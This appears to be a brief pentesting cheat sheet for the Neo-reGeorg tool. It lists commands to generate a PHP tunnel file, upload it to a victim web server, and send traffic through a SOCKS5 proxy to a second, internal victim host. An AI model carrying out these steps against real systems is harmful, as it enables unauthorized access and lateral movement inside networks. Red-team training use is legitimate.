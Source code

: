 ## Tools: Neo-reGeorg

#### 1) python3 neoreg.py generate -k KEY 

#### 2) Upload the PHP file to SERVER1

#### 3) python3 neoreg.py -k KEY -u http://VICTIM_SERVER1/uploader/files/tunnel.php

#### 4) curl --socks5 127.0.0.1:1080 http://VICTIM_SERVER2:80 

## TIP" We can also use proxychains or FoxyProxy
